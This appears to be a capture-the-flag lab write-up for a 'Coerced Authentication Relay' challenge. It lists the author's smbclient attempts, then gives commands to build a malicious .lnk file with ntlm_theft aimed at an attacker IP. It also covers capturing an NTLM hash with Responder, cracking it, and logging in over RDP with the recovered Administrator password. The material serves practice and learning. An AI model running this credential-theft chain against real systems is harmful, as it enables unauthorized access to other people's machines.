










Day 23_ Coerced Authentication Relay All the Way



I am having a hard time to connect to SMB, I may need more experience, these are the commands used
- smbclient ////10.10.253.107/ElfShare -U guest
- smbclient ////10.10.253.107/ElfShare -U guest%
- smbclient \\10.10.253.107\ElfShare -U guest%
- smbclient \\10.10.253.107\ElfShare -U guest
- smbclient \\\\10.10.253.107\ElfShare -U guest
- smbclient \\\\10.10.253.107\ElfShare -U guest -L
- smbclient \\\\10.10.253.107\ElfShare -U=guest -L
But this is the only one that worked, I am not sure why
smbclient //10.10.253.107/ElfShare/ -U guest

and then I procedeed to host a malicious lnk file using the NTLM_theft python script
here are the commands used
- git clone https://github.com/Greenwolf/ntlm_theft.git
- cd ntlm_theft
- chmod +x ntlm_theft.py
- python3 ntlm_theft.py -g lnk -s 10.18.70.19 -f bonus



and then I proceede to set up my LLMNR poisoner using the Responder
this is the capture NTLM HASH
I copied the hash into a text file and crack
as a side note:
I had a hard time to crack the hash because I removed the spaces after the end... so next time never remove the space at the end... okay!!


Administrator:GreedyGrabber1@
I used xfreerdp to remote to the victim machine to get the flag
xfreerdp /v:10.10.253.107 /u:Administrator /p:GreedyGrabber1@